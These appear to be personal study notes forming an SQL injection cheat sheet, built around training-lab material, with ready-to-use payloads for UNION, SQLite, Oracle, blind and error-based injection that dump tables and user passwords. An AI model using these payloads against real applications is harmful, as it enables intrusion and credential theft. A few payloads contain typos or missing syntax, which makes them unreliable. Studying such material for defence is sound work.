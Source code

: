 - `';--+-`
- `'--+-`
- `'` - if you get status code 500 the app might be vulnerable to SQLi.
- `admin123' UNION SELECT 1,2,3 where database() like 's%';-- -`
- `' UNION SELECT database(),concat(user, ":", password)  FROM users;-- -`
- `' UNION SELECT database(),table_name FROM information_schema.tables;-- -`
- `' UNION SELECT database(),column_name FROM information_schema.columns WHERE table_name='users';-- -`
- `' UNION SELECT @@version,2;-- -`
- Time: `' UNION SELECT SLEEP(5),2;-- -`
- find the number of columns: `' UNION SELECT NULL,NULL;-- -`
- ` UNION SELECT user,password from users;-- -`
- [SQLi PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [SQLi Union Attacks PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks) 
- [SQLi THM](https://tryhackme.com/r/room/sqlinjectionlm)
- [SQLi cheat sheet PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## SQLite
- keywords are **case insensitive**
- `' Union Select name from sqlite_master where type='table`
- dump all the tables: `' Union Select Group_concat(name, ', ') from sqlite_master where type='table`
- ` Union Select Group_concat(username || ':' || password, ', ') from admintable'`
- dump structure of table: ` Union Select sql from sqlite_master where name='admintable`
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


### Portswigger
### Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

- You can list tables by querying `all_tables`:
    `SELECT * FROM all_tables`
- You can list columns by querying `all_tab_columns`:
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

- Oracle requires a `FROM` clause in every `SELECT`. If you want to return a constant, expression, or function result without querying a real table, you use `DUAL`. via ChatGPT
	-  example: `' UNION SELECT NULL,NULL FROM DUAL --`
- [ALL_TABLES docs](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)
-  you can concat strings with `||`

### Blind SQLi

- https://portswigger.net/web-security/sql-injection/blind
- no error message is displayed on the page, but a message like "Welcome back" or "Success" displayed whenever a row is returned from the SQL query. 
- check if table `users` exists:
- `' OR (SELECT 'a' FROM users LIMIT 1)='a` 
- `' OR SUBSTRING((SELECT password FROM users WHERE username='administator')1,1)='a`
	-  takes the first letter of `administrator`'s password and checks if it's equal to `a`
	-  you can apply comparison operations like `SUBSTRING((SELECT password from users WHERE username='administrator'),1,1)>'a`
- determine length of password:
	- `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`


### Error-based SQLi
- `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
	- if username = 'administrator' and password starts with `m` -> output error
	- else app behaves normally.
- check [Portswagger cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)